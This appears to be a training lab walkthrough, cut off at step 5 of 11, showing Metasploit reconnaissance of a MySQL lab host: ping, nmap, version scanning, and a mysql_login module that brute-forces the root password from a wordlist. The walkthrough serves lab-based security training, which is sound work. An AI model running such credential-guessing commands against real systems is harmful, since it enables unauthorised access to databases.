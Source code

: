 
## Lab walkthrough — Metasploit (Kali) step-by-step

Below is a merged, clean version of your lab steps (1–11). This is a practical walkthrough showing how to go from initial reachability checks to a variety of Metasploit MySQL auxiliary modules, plus the expected outcomes to look for.

> Note: the commands assume you are on the Kali machine (or similar) and have Metasploit installed. Replace `demo.ine.local` with the target hostname or IP as required.

### Step 1 — Open the lab (Kali)
- Access the Kali machine provided by the lab environment and open a terminal.

### Step 2 — Check reachability

```bash
ping -c 4 demo.ine.local
```

- Expected: replies confirming the host is reachable.

### Step 3 — Quick service discovery

```bash
nmap demo.ine.local
```

- Expected: Nmap shows port 3306/tcp open and service `mysql` (or similar).

### Step 4 — Run `auxiliary/scanner/mysql/mysql_version`

```text
msfconsole -q
use auxiliary/scanner/mysql/mysql_version
set RHOSTS demo.ine.local
run
```

- Expected output: MySQL version banner and protocol information (e.g., `Server version: 5.x.x`). Use this to pick compatible tools/techniques.

### Step 5 — Run `auxiliary/scanner/mysql/mysql_login` (credential testing)

```text
use auxiliary/scanner/mysql/mysql_login
set RHOSTS demo.ine.local
set USERNAME root
set PASS_FILE /usr/share/metasploit-framework/data/wordlists/unix_passwords.txt
set VERBOSE false
run
```

- This attempts passwords from the wordlist for the specified username. Watch for `LOGIN SUCCESS` messages. If a valid password is found, Metasploit will usually save the credential to its database.
